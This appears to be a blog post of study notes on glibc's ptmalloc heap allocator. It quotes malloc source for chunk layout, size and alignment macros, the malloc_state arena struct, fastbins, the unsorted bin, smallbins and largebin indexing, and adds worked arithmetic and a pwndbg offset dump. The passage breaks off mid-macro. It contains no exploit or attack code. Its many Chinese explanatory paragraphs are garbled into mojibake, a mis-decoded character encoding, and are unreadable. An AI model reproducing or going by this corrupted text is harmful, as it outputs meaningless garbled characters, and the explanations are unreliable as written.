title: Basic Heap
date: 2022-10-20 22:25:00
updated: 2022-10-20 22:25:01
tags:
/*
x64 -> 8
x86 -> 4
*/
#define INTERNAL_SIZE_T size_t
#define SIZE_SZ (sizeof(INTERNAL_SIZE_T))
#define MALLOC_ALIGNMENT (2 *SIZE_SZ)
#define MALLOC_ALIGN_MASK (MALLOC_ALIGNMENT - 1)
/*
This struct declaration is misleading (but accurate and necessary).
It declares a "view" into memory allowing access to necessary
fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {
INTERNAL_SIZE_T prev_size; /* Size of previous chunk (if free). */
INTERNAL_SIZE_T size; /* Size in bytes, including overhead. */
struct malloc_chunk *fd; /* double links -- used only if free. */
struct malloc_chunk *bk;
/* Only used for large blocks: pointer to next larger size. */
struct malloc_chunk *fd_nextsize; /* double links -- used only if free. */
struct malloc_chunk *bk_nextsize;
};
typedef struct malloc_chunk *mbinptr;
typedef struct malloc_chunk *mchunkptr;
typedef struct malloc_chunk *mfastbinptr;
/*
malloc_chunk details:
(The following includes lightly edited explanations by Colin Plumb.)
Chunks of memory are maintained using a `boundary tag' method as
described in e.g., Knuth or Standish. (See the paper by Paul
Wilson ftp://ftp.cs.utexas.edu/pub/garbage/allocsrv.ps for a
survey of such techniques.) Sizes of free chunks are stored both
in the front of each chunk and at the end. This makes
consolidating fragmented chunks into bigger chunks very fast. The
size fields also hold bits representing whether chunks are free or
in use.
An allocated chunk looks like this:
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Size of previous chunk, if unallocated (P clear) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Size of chunk, in bytes |A|M|P|
mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| User data starts here... .
. .
. (malloc_usable_size() bytes) .
. |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| (size of chunk, but used for application data) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Size of next chunk, in bytes |A|0|1|
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
Where "chunk" is the front of the chunk for the purpose of most of
the malloc code, but "mem" is the pointer that is returned to the
user. "Nextchunk" is the beginning of the next contiguous chunk.
Chunks always begin on even word boundaries, so the mem portion
(which is returned to the user) is also on an even word boundary, and
thus at least double-word aligned.
Free chunks are stored in circular doubly-linked lists, and look like this:
chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Size of previous chunk, if unallocated (P clear) |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
`head:' | Size of chunk, in bytes |A|0|P|
mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Forward pointer to next chunk in list |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Back pointer to previous chunk in list |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Unused space (may be 0 bytes long) .
. .
. |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
`foot:' | Size of chunk, in bytes |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
| Size of next chunk, in bytes |A|0|0|
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
The P (PREV_INUSE) bit, stored in the unused low-order bit of the
chunk size (which is always a multiple of two words), is an in-use
bit for the *previous* chunk. If that bit is *clear*, then the
word before the current chunk size contains the previous chunk
size, and can be used to find the front of the previous chunk.
The very first chunk allocated always has this bit set,
preventing access to non-existent (or non-owned) memory. If
prev_inuse is set for any given chunk, then you CANNOT determine
the size of the previous chunk, and might even get a memory
addressing fault when trying to do so.
The A (NON_MAIN_ARENA) bit is cleared for chunks on the initial,
main arena, described by the main_arena variable. When additional
threads are spawned, each thread receives its own arena (up to a
configurable limit, after which arenas are reused for multiple
threads), and the chunks in these arenas have the A bit set. To
find the arena for a chunk on such a non-main arena, heap_for_ptr
performs a bit mask operation and indirection through the ar_ptr
member of the per-heap header heap_info (see arena.c).
Note that the `foot' of the current chunk is actually represented
as the prev_size of the NEXT chunk. This makes it easier to
deal with alignments etc but can be very confusing when trying
to extend or adapt this code.
The three exceptions to all this are:
1. The special chunk `top' doesn't bother using the
trailing size field since there is no next contiguous chunk
that would have to index off it. After initialization, `top'
is forced to always exist. If it would become less than
MINSIZE bytes long, it is replenished.
2. Chunks allocated via mmap, which have the second-lowest-order
bit M (IS_MMAPPED) set in their size fields. Because they are
allocated one-by-one, each must contain its own trailing size
field. If the M bit is set, the other bits are ignored
(because mmapped chunks are neither in an arena, nor adjacent
to a freed chunk). The M bit is also used for chunks which
originally came from a dumped heap via malloc_set_state in
hooks.c.
3. Chunks in fastbins are treated as allocated chunks from the
point of view of the chunk allocator. They are consolidated
with their neighbors only in bulk, in malloc_consolidate.
*/
/* The smallest possible chunk */
// 最å°çš„ chunk 大å°
#define MIN_CHUNK_SIZE (offsetof(struct malloc_chunk, fd_nextsize))
/* The smallest size we can malloc is an aligned minimal chunk */
#define MINSIZE \
(unsigned long)(((MIN_CHUNK_SIZE+MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK))
/*
MIN_CHUNK_SIZE -> 0x20
0000 0000 0000 0000 0000 0000 0010 0000
MALLOC_ALIGN_MASK -> 0xf
0000 0000 0000 0000 0000 0000 0000 1111
~MALLOC_ALIGN_MASK -> -0x10
1111 1111 1111 1111 1111 1111 1111 0000
MIN_CHUNK_SIZE+MALLOC_ALIGN_MASK
0000 0000 0000 0000 0000 0000 0010 1111
(MIN_CHUNK_SIZE+MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK
1111 1111 1111 1111 1111 1111 1111 0000
0000 0000 0000 0000 0000 0000 0010 1111
0000 0000 0000 0000 0000 0000 0010 0000 -> 0x20
*/
// 计算请求的大å°
#define request2size(req) \
(((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE) ? \
MINSIZE : \
((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
malloc(0x1) -> 0x20;
malloc(0x21) -> 0x30
0x21 + 0x8 + 0xf = 0x38
0011 1000
1111 0000
0011 0000 = 0x30
malloc(0x28) -> 0x30
0x28 + 0x8 + 0xf = 0x3f
0011 1111
1111 0000
0011 0000 = 0x30
malloc(0x29) -> 0x40
0x29 + 0x8 + 0xf = 0x40
0100 0000
1111 0000
0100 0000 = 0x40
0x19 ~ 0x28 -> 0x30
0x29 ~ 0x38 -> 0x40
è¡¥ç ：1111 1111 1111 1111 1111 1111 1111 0000
åç ：1111 1111 1111 1111 1111 1111 1110 1111
åŸç ：1000 0000 0000 0000 0000 0000 0001 0000
在 size å—段ä¸ç”±äº & ~MALLOC_ALIGN_MASK,我们会å‘ç°å®ƒçš„å四个比特ä½ä¸€ç›´ä¸º0，其ä¸å3个比特ä½è¢«ç”¨ä½œæ ‡è¯†ï¼Œä»é«˜åˆ°ä½åˆ†åˆ«æ„味ç€
/* size field is or'ed with PREV_INUSE when previous adjacent chunk in use */
#define PREV_INUSE 0x1
/* extract inuse bit of previous chunk */
#define prev_inuse(p) ((p)->mchunk_size & PREV_INUSE)
/* size field is or'ed with IS_MMAPPED if the chunk was obtained with mmap() */
#define IS_MMAPPED 0x2
/* check for mmap()'ed chunk */
#define chunk_is_mmapped(p) ((p)->mchunk_size & IS_MMAPPED)
/* size field is or'ed with NON_MAIN_ARENA if the chunk was obtained
from a non-main arena. This is only set immediately before handing
the chunk to the user, if necessary. */
#define NON_MAIN_ARENA 0x4
/* Check for chunk from main arena. */
#define chunk_main_arena(p) (((p)->mchunk_size & NON_MAIN_ARENA) == 0)
/* Mark a chunk as not being on the main arena. */
#define set_non_main_arena(p) ((p)->mchunk_size |= NON_MAIN_ARENA)
/*
Bits to mask off when extracting size
Note: IS_MMAPPED is intentionally not masked off from size field in
macros for which mmapped chunks should never be seen. This should
cause helpful core dumps to occur if it is tried by accident by
people extending or adapting this malloc.
*/
#define SIZE_BITS (PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
/* Get size, ignoring use bits */
#define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))
/* Like chunksize, but do not mask SIZE_BITS. */
#define chunksize_nomask(p) ((p)->mchunk_size)
/* Ptr to next physical malloc_chunk. */
#define next_chunk(p) ((mchunkptr) (((char *) (p)) + chunksize (p)))
/* Size of the chunk below P. Only valid if prev_inuse (P). */
#define prev_size(p) ((p)->mchunk_prev_size)
/* Set the size of the chunk below P. Only valid if prev_inuse (P). */
#define set_prev_size(p, sz) ((p)->mchunk_prev_size = (sz))
/* Ptr to previous physical malloc_chunk. Only valid if prev_inuse (P). */
#define prev_chunk(p) ((mchunkptr) (((char *) (p)) - prev_size (p)))
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s) ((mchunkptr) (((char *) (p)) + (s)))
/* extract p's inuse bit */
#define inuse(p) \
((((mchunkptr) (((char *) (p)) + chunksize (p)))->mchunk_size) & PREV_INUSE)
/* set/clear chunk as being inuse without otherwise disturbing */
#define set_inuse(p) \
((mchunkptr) (((char *) (p)) + chunksize (p)))->mchunk_size |= PREV_INUSE
#define clear_inuse(p) \
((mchunkptr) (((char *) (p)) + chunksize (p)))->mchunk_size &= ~(PREV_INUSE)
/* check/set/clear inuse bits in known places */
#define inuse_bit_at_offset(p, s) \
(((mchunkptr) (((char *) (p)) + (s)))->mchunk_size & PREV_INUSE)
#define set_inuse_bit_at_offset(p, s) \
(((mchunkptr) (((char *) (p)) + (s)))->mchunk_size |= PREV_INUSE)
#define clear_inuse_bit_at_offset(p, s) \
(((mchunkptr) (((char *) (p)) + (s)))->mchunk_size &= ~(PREV_INUSE))
/* Set size at head, without disturbing its use bit */
#define set_head_size(p, s) ((p)->mchunk_size = (((p)->mchunk_size & SIZE_BITS) | (s)))
/* Set size/use field */
#define set_head(p, s) ((p)->mchunk_size = (s))
/* Set size at footer (only when chunk is not in use) */
#define set_foot(p, s) (((mchunkptr) ((char *) (p) + (s)))->mchunk_prev_size = (s))
void* malloc (size_t size);
void free (void* ptr);

#define chunk2mem(p) ((void*)((char*)(p) + 2*SIZE_SZ))
#define mem2chunk(mem) ((mchunkptr)((char*)(mem) - 2*SIZE_SZ))
æ¯ä¸ªçº¿ç¨‹åªæœ‰ä¸€ä¸ª arena header， 里é¢ä¿å˜äº†bins ，top chunkç‰ä¿¡æ¯ã€‚主线程的main_arenaä¿å˜åœ¨libc.soçš„æ•°æ®æ®µé‡Œï¼Œå…¶ä»–线程的arena 则ä¿å˜åœ¨ç»™è¯¥arena分é…çš„heap里é¢ã€‚malloc_state定义如下
/*
have_fastchunks indicates that there are probably some fastbin chunks.
It is set true on entering a chunk into any fastbin, and cleared early in
malloc_consolidate. The value is approximate since it may be set when there
are no fastbin chunks, or it may be clear even if there are fastbin chunks
available. Given it's sole purpose is to reduce number of redundant calls to
malloc_consolidate, it does not affect correctness. As a result we can safely
use relaxed atomic accesses.
*/
struct malloc_state {
/* Serialize access. */
__libc_lock_define (, mutex);
/* Flags (formerly in max_fast). */
int flags;
/* Set if the fastbin chunks contain recently inserted free blocks. */
/* Note this is a bool but not all targets support atomics on booleans. */
int have_fastchunks;
/* Fastbins */
mfastbinptr fastbinsY[NFASTBINS];
/* Base of the topmost chunk -- not otherwise kept in a bin */
mchunkptr top;
/* The remainder from the most recent split of a small request */
mchunkptr last_remainder;
/* Normal bins packed as described above */
mchunkptr bins[NBINS * 2 - 2];
/* Bitmap of bins */
unsigned int binmap[BINMAPSIZE];
/* Linked list */
struct malloc_state *next;
/* Linked list for free arenas. Access to this field is serialized
by free_list_lock in arena.c. */
struct malloc_state *next_free;
/* Number of threads attached to this arena. 0 if the arena is on
the free list. Access to this field is serialized by
free_list_lock in arena.c. */
INTERNAL_SIZE_T attached_threads;
/* Memory allocated from the system in this arena. */
INTERNAL_SIZE_T system_mem;
INTERNAL_SIZE_T max_system_mem;
};
/* There are several instances of this struct ("arenas") in this
malloc. If you are adapting this malloc in a way that does NOT use
a static or mmapped malloc_state, you MUST explicitly zero-fill it
before using. This malloc relies on the property that malloc_state
is initialized to all zeroes (as is true of C statics). */
static struct malloc_state main_arena =
{
.mutex = _LIBC_LOCK_INITIALIZER,
.next = &main_arena,
.attached_threads = 1
};
pwndbg> ptype /o struct malloc_state
/* offset | size */ type = struct malloc_state {
/* 0 | 4 */ __libc_lock_t mutex;
/* 4 | 4 */ int flags;
/* 8 | 4 */ int have_fastchunks;
/* XXX 4-byte hole */
/* 16 | 80 */ mfastbinptr fastbinsY[10];
/* 96 | 8 */ mchunkptr top;
/* 104 | 8 */ mchunkptr last_remainder;
/* 112 | 2032 */ mchunkptr bins[254];
/* 2144 | 16 */ unsigned int binmap[4];
/* 2160 | 8 */ struct malloc_state *next;
/* 2168 | 8 */ struct malloc_state *next_free;
/* 2176 | 8 */ size_t attached_threads;
/* 2184 | 8 */ size_t system_mem;
/* 2192 | 8 */ size_t max_system_mem;
/* total size (bytes): 2200 */
}

mutex：åºåˆ—化对一个ç«æŠ€åœºçš„访问。Mallocåœ¨å‘ arena è¯·æ±‚å †å†…å˜ä¹‹å‰é”定了 arena çš„ mutex
flags：ä¿å˜ä¿¡æ¯ï¼Œå¦‚一个 arena çš„å †å†…å˜æ˜¯å¦è¿ç»ç‰
have_fastchunks：被视为一个 bool 值，表示 fastbins 是å¦ä¸ºç©ºï¼Œå½“一个å—被链æ¥åˆ°ä¸€ä¸ª fastbin ä¸æ—¶è¢«è®¾ç½®ï¼Œå¹¶ç”± malloc_consolidate() 清除 这个å—段和它åé¢çš„å¡«å……DWORDåªå˜åœ¨äºGLIBC版本>=2.27。在GLIBC版本<=2.26ä¸ï¼Œå®ƒæ˜¯flagså—段的一部分。
fastbinsY[NFASTBINS]：å˜æ”¾æ¯ä¸ª fast chunk 链表头部的指针。尽管在默认情况下åªæœ‰7ä¸ªè¿™æ ·çš„fastbinså¯ç”¨ï¼Œä½† mallopt() 函数å¯ä»¥é€šè¿‡ä¿®æ”¹ global_max_fast å˜é‡æ¥æ”¹å˜è¿™ä¸ªæ•°å—。
top：top chunk 是最顶部的å¯ç”¨ chunk，å³ä¸å¯ç”¨å†…å˜çš„末端æ¥å£¤çš„那个，在一个新的 arena 被åˆå§‹åŒ–å，一个 top chunk 总是å˜åœ¨çš„，而且æ¯ä¸ª arena åªæœ‰ä¸€ä¸ªã€‚åªæœ‰å½“è¯·æ±‚æ— æ³•ä»åŒä¸€ arena 的任何其他 bin ä¸å¾—到æœåŠ¡æ—¶ï¼Œæ‰ä¼šä» top chunk ä¸å¾—到æœåŠ¡ã€‚当一个 top chunk 太å°ï¼Œæ— 法满足ä½äº mmap 阈值的请求时，malloc 会å°è¯•é€šè¿‡ sysmalloc() 函数å¢åŠ top chunk æ‰€åœ¨çš„å †ï¼Œç„¶å扩展 top chunk。如æœä¸æˆåŠŸï¼Œå°±ä¼šåˆ†é…ä¸€ä¸ªæ–°çš„å †ï¼Œæˆä¸ºè¯¥ arena çš„ top chunk，而旧的t op chunk ä¸çš„任何剩余内å˜éƒ½ä¼šè¢«é‡Šæ”¾ã€‚为了达到这个目的，mallocåœ¨å †çš„æœ«ç«¯æ”¾ç½®äº†2个0x10大å°çš„ â€œæ …æ 柱 “å—，以确ä¿å‘å‰åˆå¹¶çš„å°è¯•ä¸ä¼šå¯¼è‡´è¶Šç•Œè¯»å–。
last_remainder：这个å—段æŒæœ‰å‰ä¸€ä¸ªåˆ‡å‰²æ“作产生的å—的地å€ã€‚它由å±äº smallbin 范围的请求填充，该请求æ¥è‡ª unsorted bin (æ¥è‡ªç°æœ‰çš„ last_remainder)，或æ¥è‡ªbinmapæœç´¢ã€‚è¦ä»ä¸€ä¸ª unsorted bin ä¸è¿›è¡Œåˆ‡å‰²ï¼Œæœ€å的剩余å—å¿…é¡»ä½äº unsorted bin的头部。
分割：例如，在请求一个0x100大å°çš„å—时，如æœçº¿ç¨‹çš„ arena åªæœ‰ä¸€ä¸ª0x300大å°çš„å—å¯ä»¥æ供， mallocå°†ä»å®ƒçš„空闲列表ä¸è§£å¼€0x300å—，ä»ä¸åˆ†å‰²å‡ºä¸€ä¸ª0x100å—，将所谓的剩余部分（一个 0x200大å°çš„å—）链æ¥åˆ°æœªæ’åºbin的头部，然å分é…0x100å—。
耗尽：如æœä¸€ä¸ªçº¿ç¨‹è¯·æ±‚一个0x80大å°çš„å—，而它的 arena åªæœ‰ä¸€ä¸ª0x90大å°çš„å—å¯ç”¨ï¼Œmalloc会通过分é…整个å—而ä¸æ˜¯é‡æ–°åˆ†é…æ¥ â€œè€—å°½ “这个0x90å—ã€‚è¿™æ˜¯å› ä¸ºåœ¨ä»0x90å—ä¸å–出0x80å—节å ，没有足够的空间留给一个最å°å°ºå¯¸çš„å—。
bins[NBINS * 2 - 2]：用äºå˜å‚¨ unstored bin，small bins å’Œ large bins çš„ chunk 链表。
binmap[BINMAPSIZE]：binmap 是个ä½å‘é‡ï¼Œå®ƒå¯ä»¥è¡¨ç¤º arena çš„ smallbins å’Œ largebins 哪些被å ç”¨ã€‚å½“ä¸€ä¸ªè¯·æ±‚æ— æ³•ä»å…¶ç›¸åº”çš„ bin ä¸å¾—到æœåŠ¡æ—¶ã€‚它被malloc用æ¥å¿«é€Ÿæ‰¾åˆ°ä¸‹ä¸€ä¸ªæœ€å¤§çš„ã€ä¸”有值的 bin。Binmapæœç´¢å‘生在ä¸æˆåŠŸçš„unsortedbin或largebinæœç´¢ä¹‹å，这å–决äºè¯·æ±‚大å°ã€‚Malloc找到下一个最大的ã€è¢«å 用的bin，并耗尽/切割 该binä¸çš„最å一个å—，在å一ç§æƒ…况下，如æœè¯·æ±‚是在small bin范围内，剩余部分被写入 last_remainder。
next：arena çš„å•é“¾å¾ªç¯åˆ—表的下一个。
*next_free：一个å•é“¾çš„ã€é循ç¯çš„自由 arena 列表（没有è¿æ¥çº¿ç¨‹çš„ arena）。
attached_threads：åŒæ—¶ä½¿ç”¨è¿™ä¸ªç«æŠ€åœºçš„线程数é‡ã€‚
system_mem：目å‰è¯¥ arena æ˜ å°„çš„å¯å†™å†…å˜æ€»é‡ã€‚
max_system_mem：这个 arena åœ¨ä»»ä½•æ—¶å€™æ‰€æ˜ å°„çš„æœ€å¤§çš„å¯å†™å†…å˜é‡ã€‚
/*
Fastbins
An array of lists holding recently freed small chunks. Fastbins
are not doubly linked. It is faster to single-link them, and
since chunks are never removed from the middles of these lists,
double linking is not necessary. Also, unlike regular bins, they
are not even processed in FIFO order (they use faster LIFO) since
ordering doesn't much matter in the transient contexts in which
fastbins are normally used.
Chunks in fastbins keep their inuse bit set, so they cannot
be consolidated with other free chunks. malloc_consolidate
releases all chunks in fastbins and consolidates them with
other free chunks.
*/
#define fastbin(ar_ptr, idx) ((ar_ptr)->fastbinsY[idx])
/* offset 2 to use otherwise unindexable first 2 bins */
#define fastbin_index(sz) \
((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
/*
0x30 = 0011 0000 >> 4 -> 0000 0011 -> 3 - 2 = 1
0xa0 = 1010 0000 >> 4 -> 0000 1010 -> 10 - 2 = 8
*/
/* The maximum fastbin request size we support */
#define MAX_FAST_SIZE (80 * SIZE_SZ / 4)
#define NFASTBINS (fastbin_index (request2size (MAX_FAST_SIZE)) + 1)
#define SMALLBIN_WIDTH MALLOC_ALIGNMENT
/*
Set value of max_fast.
Use impossibly small value if 0.
Precondition: there are no existing fastbin chunks.
Setting the value clears fastchunk bit but preserves noncontiguous bit.
*/
#define set_max_fast(s) \
global_max_fast = (((s) == 0) \
? SMALLBIN_WIDTH : ((s + SIZE_SZ) & ~MALLOC_ALIGN_MASK))
#define get_max_fast() global_max_fast
/* Maximum size of memory handled in fastbins. */
static INTERNAL_SIZE_T global_max_fast;
#define DEFAULT_MXFAST (64 * SIZE_SZ / 4)
static void malloc_init_state(mstate av) {
...
if (av == &main_arena)
set_max_fast (DEFAULT_MXFAST);
...
}

它是一个å•é“¾çš„ã€é循ç¯é“¾è¡¨çš„集åˆï¼Œæ¯ä¸ªåˆ—表容纳特定大å°çš„ chunk。æ¯ä¸ª arena 有 10 个 fastbin，æ¯ä¸ªè´Ÿè´£æŒæœ‰å¤§å°ä¸º 0x20 到 0xb0 çš„å—。例如，一个 0x20 çš„ fastbin åªä¿å˜ 0x20 大å°çš„空闲å—，而一个 0x30 çš„ fastbin åªèƒ½å®¹çº³å¤§å°ä¸º 0x30 的空闲å—，ç‰ç‰ã€‚尽管在默认情况下åªæœ‰7个 è¿™æ ·çš„ fastbins å¯ç”¨ï¼Œä½† mallopt() 函数å¯ä»¥é€šè¿‡ä¿®æ”¹global_max_fastå˜é‡æ¥æ”¹å˜è¿™ä¸ªæ•°å—。
æ¯ä¸ªfastbin的头部驻留在它的 arena 上，尽管该binä¸çš„åç»å—之间的链æ¥æ˜¯å†…è”å˜å‚¨çš„。当一 个å—的用户数æ®çš„第一个四å—节被链æ¥åˆ°ä¸€ä¸ªfastbinä¸æ—¶ï¼Œå®ƒè¢«é‡æ–°ä½¿ç”¨ä¸ºä¸€ä¸ªå‰å‘指针（ fd）。一个空的fd表示一个fastbinä¸çš„最å一个å—。
Fastbins是å进先出(LIFO)的结æ„，将一个å—释放到一个fastbinä¸ï¼Œä¼šå°†å…¶é“¾æ¥åˆ°è¯¥fastbin的头部。åŒæ ·åœ°ï¼Œè¯·æ±‚ä¸é空fastbin相匹é…的大å°çš„å—，将导致在该fastbin的头部分é…该å—。
如æœå¯¹åº”çš„tcachebinå·²ç»æ»¡äº†ï¼Œç©ºé—²çš„chunks会直æ¥é“¾æ¥åˆ°å¯¹åº”çš„fastbin。当请求的大å°åœ¨ fastbin范围内时，在tcacheæœç´¢ä¹‹å，在任何其他binsæœç´¢ä¹‹å‰ï¼Œè¿›è¡Œfastbinæœç´¢ã€‚
int __libc_mallopt(int param_number, int value) {
mstate av = &main_arena;
int res = 1;
if (__malloc_initialized < 0)
ptmalloc_init();
__libc_lock_lock(av->mutex);
LIBC_PROBE(memory_mallopt, 2, param_number, value);
/* We must consolidate main arena before changing max_fast
(see definition of set_max_fast). */
malloc_consolidate(av);
switch (param_number) {
case M_MXFAST:
if (value >= 0 && value <= MAX_FAST_SIZE) {
LIBC_PROBE(memory_mallopt_mxfast, 2, value, get_max_fast());
set_max_fast (value);
} else
res = 0;
break;
case M_TRIM_THRESHOLD:
do_set_trim_threshold(value);
break;
case M_TOP_PAD:
do_set_top_pad(value);
break;
case M_MMAP_THRESHOLD:
res = do_set_mmap_threshold(value);
break;
case M_MMAP_MAX:
do_set_mmaps_max(value);
break;
case M_CHECK_ACTION:
do_set_mallopt_check(value);
break;
case M_PERTURB:
do_set_perturb_byte(value);
break;
case M_ARENA_TEST:
if (value > 0)
do_set_arena_test(value);
break;
case M_ARENA_MAX:
if (value > 0)
do_set_arena_max(value);
break;
}
__libc_lock_unlock(av->mutex);
return res;
}
/* addressing -- note that bin_at(0) does not exist */
#define bin_at(m, i) \
(mbinptr) (((char *) &((m)->bins[((i) - 1) * 2])) \
- offsetof (struct malloc_chunk, fd))
/*
Unsorted chunks
All remainders from chunk splits, as well as all returned chunks,
are first placed in the "unsorted" bin. They are then placed
in regular bins after malloc gives them ONE chance to be used before
binning. So, basically, the unsorted_chunks list acts as a queue,
with chunks being placed on it in free (and malloc_consolidate),
and taken off (to be either used or placed in bins) in malloc.
The NON_MAIN_ARENA flag is never set for unsorted chunks, so it
does not have to be taken into account in size comparisons.
*/
/* The otherwise unindexable 1-bin is used to hold unsorted chunks. */
#define unsorted_chunks(M) (bin_at (M, 1))

unsorted bin是一个åŒé“¾çš„循ç¯åˆ—表，它å¯ä»¥å®¹çº³ä»»ä½•å¤§å°çš„空闲å—。unsorted bin的头部和尾部ä½äºå…¶ arena 上，而binä¸åç»å—之间的fdå’Œbk链æ¥åˆ™å˜å‚¨åœ¨å †å†…。
当对应的tcachebin已满，或超出tcache大å°èŒƒå›´ï¼ˆé»˜è®¤æƒ…况下为0x420åŠä»¥ä¸Šï¼‰æ—¶ï¼Œfree chunks会直æ¥é“¾æ¥åˆ°unsortedbin的头部。在没有tcacheçš„GLIBC编译版本ä¸ï¼ˆGLIBC默认版本 <=2.25），当自由å—超出fastbin大å°èŒƒå›´ï¼ˆé»˜è®¤æƒ…况下为0x90åŠä»¥ä¸Šï¼‰æ—¶ï¼Œä¼šç›´æ¥é“¾æ¥åˆ° unsorted bin的头部。
当请求的大å°åœ¨tcacheã€fastbinså’Œsmallbins æœç´¢ä¹‹å，但在largebinsæœç´¢ä¹‹å‰ï¼Œunsorted bin 会被æœç´¢åˆ°ã€‚unsorted binæœç´¢ä»bin的尾部开始，然åå‘头部移动，如æœä¸€ä¸ªå—æ£å¥½ç¬¦åˆè§„范化的请求大å°ï¼Œå®ƒå°±ä¼šè¢«åˆ†é…，æœç´¢å°±ä¼šåœæ¢ï¼Œå¦åˆ™å®ƒå°±ä¼šè¢«åˆ†ç±»åˆ°ç›¸åº”çš„smallbin或largebinä¸ã€‚
如æœåœ¨unsorted bin扫æ过程ä¸è¢«æ£€æŸ¥çš„å—ä¸æ˜¯å®Œå…¨åŒ¹é…的，但是是最å的剩余，并且大到å¯ä»¥å†æ¬¡å‰©ä½™ï¼Œé‚£ä¹ˆå®ƒå°±è¢«å‰©ä½™ã€‚这个剩余æ“作的结æœçš„å—被链æ¥å›unsorted bin的头部。
#define NBINS 128
#define NSMALLBINS 64
#define SMALLBIN_WIDTH MALLOC_ALIGNMENT
#define SMALLBIN_CORRECTION (MALLOC_ALIGNMENT > 2 * SIZE_SZ)
#define in_smallbin_range(sz) \
((unsigned long) (sz) < (unsigned long) MIN_LARGE_SIZE)
#define smallbin_index(sz) \
((SMALLBIN_WIDTH == 16 ? (((unsigned) (sz)) >> 4) : (((unsigned) (sz)) >> 3))\
+ SMALLBIN_CORRECTION)

Smallbins是一个åŒé‡é“¾æ¥çš„循ç¯åˆ—表，æ¯ä¸ªåˆ—表都æŒæœ‰ç‰¹å®šå¤§å°çš„free chunk。æ¯ä¸ªarena有62 个smallbins，æ¯ä¸ªè´Ÿè´£ä¿å˜å¤§å°ä¸º0x20到0x3f0的自由å—，ä¸fastbin的大å°é‡å 。例如，一个 0x20çš„ small binåªä¿å˜å¤§å°ä¸º0x20的自由å—，而一个0x3c0çš„ small binåªä¿å˜å¤§å°ä¸º0x3c0的自由å—ç‰ç‰ã€‚
æ¯ä¸ª small bin 的头部驻留在它的 arena ä¸ï¼Œå°½ç®¡å…¶ä¸çš„åç»å—之间的链æ¥æ˜¯é€šè¿‡å†…è”å˜å‚¨ã€‚当æ’åºå‘生时，自由å—åªé€šè¿‡å…¶ arena çš„ unsorted bin 链æ¥åˆ°å…¶ç›¸åº”çš„ small bin。当一个å—被链æ¥åˆ°ä¸€ 个 samll bin ä¸æ—¶ï¼Œå…¶ç”¨æˆ·æ•°æ®çš„第一个四å—被é‡æ–°ç”¨ä½œå‰å‘指针（fd），第二个四å—被é‡æ–°ç”¨ä½œåå‘指针（bk）。
Smallbins是先进先出（FIFO）的结æ„，将一个å—分到一个smallbinä¸ï¼Œä¼šå°†å…¶é“¾æ¥åˆ°è¯¥smallbin 的头部。åŒæ ·åœ°ï¼Œè¯·æ±‚ä¸ä¸€ä¸ªé空的 samll bin相匹é…的大å°çš„å—，将导致ä»è¯¥ small bin 的尾部分é…一个å—。
Smallbin æœç´¢åœ¨ tcache æœç´¢ä¹‹å进行。
#define MIN_LARGE_SIZE ((NSMALLBINS - SMALLBIN_CORRECTION) * SMALLBIN_WIDTH)
/*
Larger bins are approximately logarithmically spaced:
32 bins of size 64
16 bins of size 512
8 bins of size 4096
4 bins of size 32768
2 bins of size 262144
1 bin of size what's left
*/
#define largebin_index_32(sz) \
(((((unsigned long) (sz)) >> 6) <= 38) ? 56 + (((unsigned long) (sz)) >> 6) :\
((((unsigned long) (sz)) >> 9) <= 20) ? 91 + (((unsigned long) (sz)) >> 9) :\
((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :\
((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :\
((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :\
126)
#define largebin_index_32_big(sz) \
(((((unsigned long) (sz)) >> 6) <= 45) ? 49 + (((unsigned long) (sz)) >> 6) :\
((((unsigned long) (sz)) >> 9) <= 20) ? 91 + (((unsigned long) (sz)) >> 9) :\
((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :\
((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :\
